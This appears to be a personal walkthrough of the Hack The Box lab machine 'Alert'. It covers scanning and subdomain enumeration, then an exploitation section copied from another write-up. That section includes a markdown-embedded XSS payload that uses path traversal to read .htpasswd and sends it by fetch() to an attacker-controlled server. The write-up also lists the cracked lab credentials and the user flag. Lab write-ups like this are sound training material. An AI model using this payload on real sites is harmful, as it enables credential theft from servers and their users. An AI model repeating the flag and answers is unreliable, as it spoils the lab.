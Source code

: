 
[[HTB]] : [[Machines]]

**Date:** 10/01/25  
**Target IP:** 10.10.11.44

---
### **Initial Scanning**

#### **Nmap**

- 22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
- 80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))

---
### **Exploration and Enumeration**

Navigated to `alert.htb` on Port 80 and I'm presented with 4 pages :
- Markdown Viewer ( http://alert.htb/index.php?page=alert )
- Contact Page with a form.
- About Us Page
- Donate Page with a form that doesn't work.

On submitting a demo .md file we are sent to /visualizer.php where we can view the parsed markdown and are provided an option to obtain a shareable link to the parsed markdown. 

Initial inclination is that a file upload vulnerability is present.

#### **Subdomain Enumeration**

``` bash
❯ ffuf -u http://alert.htb/ -H "Host: FUZZ.alert.htb" -w /usr/share/wordlists/subdomains-10000.txt -ac
```

```bash
statistics              [Status: 401, Size: 467, Words: 42, Lines: 15, Duration: 209ms]
```

Here is where everything went beyond my abilities.

---
### **Exploitation**

The following solution for Exploitation and Gaining Access was obtained from a write-up.

JavaScript payloads may be embedded within .md files. We can utilize this to read sensitive files on the web server. Since the web server is Apache and hosting a website written in .php, the sensitive file of interest should be ***.htpasswd***.

Attempting to make the webpage reflect the contents of a sensitive file is not possible due to the way the webpage is displaying the parsed markdown text. Hence, an alternative to this can be adopted in the way of exfiltrating the contents to an HTTP server set up on the attacking machine.

This can be achieved through uploading the following `test.md` file :

``` js
<script>
fetch("http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd")
  .then(response => response.text())
  .then(data => {
    fetch("http://<attacker_ip>:8888/?text=" + encodeURIComponent(data));
  });
</script>
```

Here, we call the statistics subdomain discovered earlier as the standard domain does not provide us with the necessary response.

Viewing the above on the webpage triggers the following response on our HTTP server :

```
10.10.14.63 - - [10/Jan/2025 15:35:07] "GET /?text=%0A HTTP/1.1" 200 -
```

We can then enter the share link functionality on the website and submit the obtained share link into the contact form which causes the following response to be sent to our HTTP server :

```
10.10.11.44 - - [10/Jan/2025 16:27:12] "GET /?text=%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A HTTP/1.1" 200 -
```

We obtain the following credentials after URL decoding and cracking the hash : 

**albert : manchesterunited**

I can now SSH into this user and obtain the **user flag** :

**6b8a1491b31410fd81c62609bff78c3d**

---
### **Post-Exploitation**



---
### **Summary**

- Albert User Credentials : `albert : manchesterunited`
- User Flag ( `/home/albert/user.txt` ) : **6b8a1491b31410fd81c62609bff78c3d**
- 






